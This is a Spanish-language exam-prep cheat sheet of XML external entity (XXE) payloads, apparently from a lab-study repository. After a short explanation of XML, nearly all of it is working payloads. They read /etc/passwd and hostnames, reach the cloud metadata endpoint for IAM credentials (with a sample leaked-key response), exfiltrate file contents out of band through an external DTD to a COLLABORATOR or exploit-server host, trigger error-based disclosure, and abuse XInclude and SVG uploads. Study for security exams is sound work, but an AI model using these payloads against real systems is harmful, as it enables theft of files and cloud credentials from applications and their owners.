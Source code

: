 ## ¿Qué es XML?

XML significa "lenguaje de marcado extensible". XML es un lenguaje diseñado para almacenar y transportar datos. Al igual que HTML, XML utiliza una estructura de etiquetas y datos similares a árboles. A diferencia de HTML, XML no usa etiquetas predefinidas, por lo que las etiquetas pueden recibir nombres que describan los datos. Anteriormente en la historia de la web, XML estaba de moda como un formato de transporte de datos (el "X" en "AJAX" significa "XML"). Pero su popularidad ha declinado ahora a favor del formato JSON.

```xml
<!DOCTYPE test [<!ENTITY xxe SYSTEM "http://169.254.169.254/">]>
No olvidar llamar la variable &xxe; dentro de <productId>&xxe;<productId/>
```

- XXE -> Basic LFI

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE productId [<!ENTITY test SYSTEM 'file:///etc/passwd'>]>
<stockCheck><productId>&test;</productId><storeId>1</storeId></stockCheck>
```

- XXE -> SSRF

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [<!ENTITY xxe SYSTEM 'http://169.254.169.254/'>]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>

Seguir el endpoint hasta donde podemos llegar, en el lab por ejm es así: 
<!DOCTYPE foo [ <!ENTITY test SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
```

- XXE -> Out of Band Interaction

```html
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [<!ENTITY xxe SYSTEM 'http://COLLABORATOR'>]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

- XXE -> Blind with out-of-band interaction

```xml 
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [<!ENTITY xxe SYSTEM 'http://BURP-COLLAB'>]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck> 
```

- XXE -> Out of Band Interaction via parameter entity

```html
<?xml version="1.0" encoding="UTF-8"?>
simplemente añadimos este encima de <stockCheck>
<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://COLLABORATOR"> %xxe; ]>

```

- XXE -> Exfiltrate data with .DTD

```xml
//dejar el server exploit con /testing.dtd -->

<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://COLLABORATOR?x=%file;'>">
%eval;
%exfiltrate;

//En el endpoint del lab que contenga la request con el XML añadir lo siguiente: 

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://SERVER-EXPLOIT/testing.dtd"> %xxe; ]>
<stockCheck><productId>2</productId><storeId>2</storeId></stockCheck>

//luego analizar nuestro burp collaborator para ver si nos llega algo interesante de lo que pasamos. 

```

- XXE -> Exfiltrate data via error messages

```xml
//dejar el server exploit con /testing.dtd -->

<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///invalid/%file;'>">
%eval;
%error;

//En el endpoint del lab que contenga la request con el XML añadir lo siguiente:

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % testingFelipe SYSTEM "http://SERVER-EXPLOIT/testing.dtd"> %testingFelipe;]>
<stockCheck><productId>2</productId><storeId>2</storeId></stockCheck>
```

- XXE -> Use XInclude in a parameter (url encode the payload)

```html
?productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>

or

<xi:include xmlns:xi="http://www.w3.org/2001/XInclude" href="{filePath}" parse="text"/>
```

* XXE -> Retrieving Data by a local DTD `docbookx.dtd` 
	El archivo local puede variar, dependiendo del lab. 

*![[Pasted image 20250216124148.png]]

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
%local_dtd;
]>
<stockCheck><productId>2</productId><storeId>2</storeId></stockCheck> //si obtenemos un 200ok perfecto. 

//Ahora si, tiramos el comando esencial para producir el error de parsing de file local y desencadene el disclosure ->
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd"> <!ENTITY % ISOamso ' <!ENTITY &#x25; file SYSTEM "file:///etc/passwd"> <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>"> &#x25;eval; &#x25;error; '> %local_dtd; ]>
<stockCheck><productId>2</productId><storeId>2</storeId></stockCheck> 
//En este caso no necesitamos de un server externo para alojar el file ya que nos referimos a un archivo local existente en el server, basta con hacer la request directamente en el xml.
```

- XXE -> XXE on SVG

```html
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
   <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```

### XXE to perform SSRF

```xml
The lab server is running a (simulated) EC2 metadata endpoint at the default URL, which is `http://169.254.169.254/`

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [<!ENTITY xxe SYSTEM 'http://169.254.169.254/'>]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [<!ENTITY xxe SYSTEM 'http://169.254.169.254/latest/meta-data/iam/security-credentials/admin'>]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>

Gives = "Invalid product ID: {
  "Code" : "Success",
  "LastUpdated" : "2024-01-04T10:03:06.016826989Z",
  "Type" : "AWS-HMAC",
  "AccessKeyId" : "ZgBxuLo1qUbadDsb5agi",
  "SecretAccessKey" : "62J0cLHKUttLOoKaXvTc55LgWDRLEuv7S6jfIQSc",
  "Token" : "tyIjMrJIsrPDFGSmR9u4hqFqjzxIx7yO9h8dshFOBPTNkBpvCY0jou4GcFhxBkzetcXYr8oWTS1uWYhyyxiStHap8tv6q83xWT8dHus70bXuuZjeD6w0jTzuQy1vakLar6k2apXbrrhj3fpZVNM7XKwPVTFPg2degLdeMSPCXRWgsD5D2Uoyjd9LkFMwLsdk2hFpIGW89uvX1xY4EKTNzipFL3irC3C2Jr49uCCtvDCGCEa6iwLeySLjttI5LUS7",
  "Expiration" : "2030-01-02T10:03:06.016826989Z"
}"


<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///Windows/System32/drivers/etc/hosts" > ]>

```

* ##### Abusing XInclude

```xml 
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>

productId=<foo+xmlns%3axi%3d"http%3a//www.w3.org/2001/XInclude"><xi%3ainclude+parse%3d"text"+href%3d"file%3a///etc/passwd"/></foo>&storeId=1
```

* ##### XXE on svg image

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
   <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```
 
 * #### xmlns load etc/passwd

```xml
<rpo+xmlns%3axi%3d"http%3a//www.w3.org/2001/XInclude"><xi%3ainclude+parse%3d"text"+href%3d"file%3a///etc/passwd"/></rpo>
```

eso sería todo,  si lees esto significa que estás revisando mi repo por todo lado, bueno mucha suerte en tu examen! 